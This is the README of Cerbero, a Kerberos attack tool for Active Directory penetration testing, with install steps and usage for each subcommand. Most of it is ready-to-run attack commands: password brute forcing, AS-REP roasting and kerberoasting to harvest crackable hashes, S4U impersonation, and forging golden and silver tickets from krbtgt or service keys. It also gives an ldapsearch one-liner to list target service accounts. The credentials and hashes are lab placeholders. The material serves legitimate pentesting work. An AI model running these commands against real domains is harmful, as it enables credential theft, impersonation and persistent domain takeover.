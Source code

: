 <!-- cargo-sync-readme start -->

# Cerbero

Kerberos protocol attacker. Tool to perform several tasks
related with Kerberos protocol in an Active Directory pentest.

## Installation

From crates:
```sh
cargo install cerbero
```

From repo:
```sh
git clone https://gitlab.com/Zer1t0/cerbero.git
cd cerbero/
cargo build --release
```

## Commands
- [ask](#ask)
- [asreproast](#asreproast)
- [brute](#brute)
- [convert](#convert)
- [craft](#craft)
- [hash](#hash)
- [kerberoast](#kerberoast)
- [list](#list)

### Ask
The `ask` command allows to retrieve Kerberos tickets (TGT/TGS) from the KDC
(Domain Controller in Active Directory environment). Moreover also
perform requests to obtain tickets by using the S4U2Self and S4U2Proxy
Kerberos extensions.

Ask TGT:
```shell
cerbero ask -u Hades -d under.world -p IamtheKingofD34d!!
```

Ask TGS:
```shell
cerbero ask -u Hades -d under.world -p IamtheKingofD34d!! --spn ldap/under.world
```

Perform S4u2self:
```shell
cerbero ask -u Hades -d under.world -p IamtheKingofD34d!! --impersonate Zeus
```

Perform S4u2proxy:
```shell
cerbero ask -u Hades -d under.world -p IamtheKingofD34d!! --impersonate Zeus --spn ldap/under.world
```


### AsRepRoast
`asreproast` can be used to discover users that do not require
pre-authentication and retrieve a ticket to crack with hashcat or john.

Check many users:
```shell
cerbero asreproast under.world users.txt
```

Check many users with weak RC4 cipher (easier to crack):
```shell
cerbero asreproast under.world users.txt --cipher rc4
```

### Brute
`brute` performs TGTs requests in order to discover user credentials
based on the KDC response. This bruteforce technique allows you to
discover:
+ Valid username/password pairs
+ Valid usernames
+ Expired passwords
+ Blocked or disabled users

This attack should be performed carefully since can block user
accounts in case of perform many incorrect authentication attemps
for the same user.

Test many users and passwords:
```shell
cerbero brute under.world users.txt passwords.txt
```

Test one user and many passwords:
```shell
cerbero brute under.world Zeus passwords.txt
```

Test many users and one password:
```shell
cerbero brute under.world users.txt Olympus1234
```

Test one user and one password:
```shell
cerbero brute under.world Zeus Olympus1234
```

### Convert
Allows to `convert` ticket files between krb (Windows) and
ccache (Linux) formats.

Convert ccache to krb:
```shell
cerbero convert hades.ccache hades.krb
```

Convert krb to ccache:
```shell
cerbero convert hades.krb hades.ccache
```
### Craft
To `craft` golden and silver tickets.

Craft a golden ticket (by using the `krbtgt` AES256 key):
```shell
cerbero craft --realm under.world --realm-sid S-1-5-21-658410550-3858838999-180593761 --user kratos --aes-256 fed0c966ff7f88d776bb35fed0f039725f8bbb87017d5b6b76ee848f25562d2c
```

Craft a silver ticket (for the service `cifs` hosted by the machine `styx`):
```shell
cerbero craft --realm under.world --realm-sid S-1-5-21-658410550-3858838999-180593761 --user kratos --ntlm 29f9ab984728cc7d18c8497c9ee76c77 --spn cifs/styx,under.world
```

### Hash
Calculate the Kerberos keys (password hashes) from the user password.

Calculate RC4 key (NT hash):
```shell
$ cerbero hash -p 'IamtheKingofD34d!!'
rc4:86e0a04f7a44ed4d4a7eaf2ee977c799
```

Calculate all the keys:
```shell
$ cerbero hash -p 'IamtheKingofD34d!!' -u Hades -d under.world
rc4:86e0a04f7a44ed4d4a7eaf2ee977c799
aes128:fe165dec904772a90a177069e4ea7019
aes256:1304965c35176aeb72e1ae5fdd6c2fe2e901af7223cb75f5eaac25ad667136e7
```

### Kerberoast
To format encrypted part of tickets in order to be cracked by hashcat or john.

```shell
cerbero kerberoast -s services.txt --realm under.world --user Hades -p IamtheKingofD34d!!
```
To get a list of services you could use `ldapsearch`:
```shell
ldapsearch -b "dc=under,dc=world" -w IamtheKingofD34d!! -D "Hades@under.world" "(&(samAccountType=805306368)(servicePrincipalName=*)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))" servicePrincipalName | grep servicePrincipalName: | cut -d ' ' -f 2 | tee services.txt
```

### List
`list` shows the tickets information of a credentials file. Similar
to `klist` command

```shell
cerbero list hades.ccache
```

## Credits
This work is based on great work of other people:
- [Impacket](https://github.com/SecureAuthCorp/impacket) of Alberto Solino [@agsolino](https://github.com/agsolino)
- [Rubeus](https://github.com/GhostPack/Rubeus) of Will [@harmj0y](https://twitter.com/harmj0y) and Elad Shamir [@elad_shamir](https://twitter.com/elad_shamir)
- [Mimikatz](https://github.com/gentilkiwi/mimikatz) of [@gentilkiwi](https://twitter.com/gentilkiwi) 

<!-- cargo-sync-readme end -->
